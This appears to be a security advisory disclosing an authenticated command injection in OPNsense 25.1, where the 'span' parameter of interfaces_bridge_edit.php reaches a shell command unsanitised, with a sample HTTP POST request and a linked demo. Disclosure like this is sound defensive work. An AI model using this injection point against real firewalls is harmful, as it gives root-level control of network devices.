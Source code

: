 OPNsense 25.1 contains an authenticated command injection flaw in its Bridge Interface Edit endpoint (interfaces_bridge_edit.php). The span POST parameter is concatenated into a system-level command without proper sanitization or escaping, allowing an administrator to inject arbitrary shell operators and payloads. Successful exploitation grants RCE with the privileges of the web service (typically root), potentially leading to full system compromise or lateral movement. This vulnerability arises from inadequate input validation and improper handling of user‐supplied data in backend command invocations.



Vulnerability: Command Injection

Note: The version and user below are the what was used. Other users and versions may be affected.



Version: ```OPNsense-25.1```

Authenticated: ```Yes```

User: ```Admin```

Vulnerable Parameter: ```span```

```
POST /interfaces_bridge_edit.php?id=16 HTTP/1.1
Host: 192.168.124.88
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:137.0) Gecko/20100101
Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://192.168.124.88/interfaces_bridge_edit.php?id=16
Content-Type: application/x-www-form-urlencoded
Content-Length: 183
Origin: http://192.168.124.88
Connection: keep-alive
Cookie: PHPSESSID=48838016cb8ce2a1c4b5371a478d545b;
cookie_test=1d294d7a2e5a97eb87d0ff7049a7dadb
Upgrade-Insecure-Requests: 1
Priority: u=0, i

VagXojD_w-BjE6WSCfwkFA=9CPTjmFBEPBu5IMEFX-ogA&descr=test&proto=rstp&maxage=&fwdelay=&holdcnt=&maxaddr=&timeout=&span=none&bridgeif=bridge17&Submit=Save&id=16
```

Demo:
![](https://github.com/4rdr/proofs/blob/main/gifs/OPNsense-25.1-Command-Injection-via-span-parameter.gif?raw=true)



